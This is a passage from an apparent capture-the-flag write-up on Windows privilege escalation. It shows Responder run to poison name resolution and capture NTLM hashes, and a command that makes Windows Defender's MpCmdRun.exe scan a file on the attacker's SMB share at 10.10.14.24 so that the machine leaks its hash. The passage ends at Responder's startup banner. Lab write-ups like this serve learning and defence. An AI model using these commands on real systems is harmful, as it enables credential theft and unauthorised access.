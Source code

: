 According to this, the administraotr has set the Authentication Level to Level 2 which apparently means that only NTLM authentication will be made instead of NTLMv2. You can read more about this [here](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level).<br>


## Privilege Escalation

We can abuse windows defender to scan a file on our smb share and relay the NTLM hash and then attempt to crack it.

[Here](https://github.com/Gl3bGl4z/All_NTLM_leak/blob/master/README.md) is an amazing cheat sheet to do a NTLM hash leak, abusing windows defender to get the hash worked for me.



### Setting Up SMB Server

First we have to create a smbserver which will relay the hash and researching more about this, we will have to either use responder or metasploit to do this. I will be using responder.

First clone responder from [github](https://github.com/SpiderLabs/Responder)

And then run it with sudo on your machine.

```shell
┌──(sid㉿kali)-[/opt/Responder] 
└─$ sudo python Responder.py -I tun0 --lm 

```
Then we will use Windows Defender to scan a file on our smb share (which is automatically setup by responder).

```shell
*Evil-WinRM* PS C:\> cmd /C C:\Users\"All Users"\Microsoft\"Windows Defender"\platform\4.18.2010.7-0\X86\MpCmdRun.exe -Scan  -ScanType 3 -File \\10.10.14.24\hello\win.exe
Scan starting...
CmdTool: Failed with hr = 0x80508023. Check C:\Users\HENRY~2.VIN\AppData\Local\Temp\MpCmdRun.log for more information
*Evil-WinRM* PS C:\> 
```


```shell
┌──(sid㉿kali)-[/opt/Responder] 
└─$ sudo python Responder.py -I tun0 --lm 

                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CRTL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
```